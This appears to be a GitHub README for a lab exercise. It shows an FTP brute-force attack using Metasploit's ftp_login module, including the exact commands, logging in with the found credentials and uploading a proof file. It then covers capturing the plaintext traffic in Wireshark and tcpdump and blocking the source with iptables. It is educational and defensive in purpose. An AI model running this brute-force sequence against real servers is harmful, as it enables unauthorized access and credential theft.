 # FTP-Brute-Force-Attack-using-Metasploit-with-Threat-Detection-via-Wireshark
Demonstrate a controlled FTP brute-force attack using Metasploit’s auxiliary/scanner/ftp/ftp_login module, verify successful access, capture forensic evidence with Wireshark/tcpdump (FTP is plaintext), and show quick mitigation steps. Intended for lab/educational use only.
# Tools & Environment

Attacker: Kali Linux with Metasploit (msfconsole) — example IP 10.196.201.215.

Victim: Ubuntu/Linux with FTP service (vsftpd/proftpd) — example IP 10.196.201.145, port 21.

Network analysis: Wireshark / tcpdump to capture control traffic.

Client: ftp, FileZilla, or any command-line FTP client to verify access.

Mitigation: iptables for immediate host-based blocking.

# Quick background

FTP transmits control traffic (USER/PASS) in plaintext on port 21 by default — credentials and commands can be observed in packet captures.

Metasploit provides an ftp_login auxiliary module to automate username/password guessing — useful for lab demonstrations of weak credential risk.

Environment prep

Ensure the victim’s FTP server is running and reachable at 10.196.201.145.

On the attacker (Kali), prepare username and password lists (one item per line):

/root/user.txt — candidate usernames (e.g., cisco, analyst)

/root/passwords.txt — candidate passwords (e.g., password, net_secPW)

# Attack — step by step

Start Metasploit:

msfconsole


Configure and run the FTP brute-force module:

use auxiliary/scanner/ftp/ftp_login
set RHOSTS 10.196.201.145
set RPORT 21
set USER_FILE /root/user.txt
set PASS_FILE /root/passwords.txt
run


The module will iterate username/password combos and report any successes (e.g., Success: cisco:password123).

Verify credentials using an FTP client:

ftp cisco@10.196.201.145
# enter the discovered password when prompted


After login, list directories, download/upload files, or use STOR hacked.txt to upload a proof file (lab only).

# Evidence capture & analysis (Wireshark / tcpdump)

Capture control traffic on victim or network tap:

sudo tcpdump -i eth0 -s 0 -w ftp_attack.pcap port 21


Open ftp_attack.pcap in Wireshark. Look for:

Repeated USER and PASS exchanges in plaintext.

530 Login incorrect responses for failures and 230 Login successful on success.

Plaintext credentials visible in packet payloads and STOR/RETR commands for file transfers.

Automated pattern: many auth attempts from the same source IP in a short time window.

Useful Wireshark filters:

ftp — show FTP packets.

ftp.request.command == "USER" or ftp.request.command == "PASS" — focus on authentication traffic.

# Mitigation
Immediate

Block attacker IP:

sudo iptables -A INPUT -s <ATTACKER_IP> -p tcp --dport 21 -j DROP
sudo iptables -L INPUT -v -n


(Replace <ATTACKER_IP> with the source observed in captures.)

# Recommended long-term defenses

Replace plaintext FTP with SFTP (SSH-based) or FTPS (FTP over TLS).

Use strong credentials and enforce rotation.

Deploy automated banning tools (fail2ban, sshguard) to auto-block repeated failures.

Limit FTP access to trusted networks or management IPs.

Maintain centralized logs and periodic packet capture review for suspicious patterns.

# Safety & ethics

Only perform this testing in a controlled laboratory or on systems where you have explicit authorization. Unauthorized brute-force attacks or scanning against production/public systems is illegal and unethical.

# Summary

This README shows how to run an FTP brute-force test with Metasploit, capture cleartext evidence with Wireshark/tcpdump, verify access via an FTP client, and apply immediate iptables-based blocking. The exercise demonstrates why plaintext FTP is insecure and reinforces the need for secure protocols and automated protections.

